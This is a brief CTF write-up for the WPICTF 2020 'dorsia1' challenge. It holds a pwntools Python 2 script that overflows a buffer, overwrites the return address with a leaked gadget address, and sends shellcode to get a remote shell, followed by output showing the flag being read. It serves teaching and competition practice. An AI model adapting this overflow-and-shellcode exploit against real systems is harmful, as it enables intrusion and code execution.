 ## dorsia1 WPICTF 2020 Writeup

This was the C code you interact with over nc:

![scrot](scrot.png)

I found out you the address given back is a magic gadget, so no need to subtract anything...

Python 2:

```python
from pwn import *

r = remote('dorsia1.wpictf.xyz', 31337)

system = r.recvline().decode('utf-8')

r.send('A'*77)
r.send(p64(int(system, 16)))

payload = 'A'*8
payload += asm(shellcraft.sh())
r.send(payload)
r.interactive()
```

```
$ python2 solve.py 
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```
